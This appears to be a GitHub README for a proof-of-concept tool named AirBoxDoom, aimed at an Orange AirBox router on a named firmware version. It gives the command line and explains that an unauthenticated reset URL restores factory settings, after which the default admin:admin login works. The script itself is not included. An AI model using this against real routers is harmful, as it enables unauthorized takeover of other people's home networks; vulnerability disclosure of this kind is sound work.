 # AirBoxDoom
Proof of Concept of AirBoxDoom Vulnerability.                   

# How to use      

AirBoxDoom.py         
`python AirBoxDoom.py -ip 192.168.1.1`        
`AirBox resetted to factory settings`

# How it works        

Airbox contains webpage `http://192.168.1.1/goform/setReset` which when entered resets router settings so you can login with default password admin:admin

# Router information        

Router: AirBox
Vendor: Orange
Firmware version: Y858_FL_01.16_04
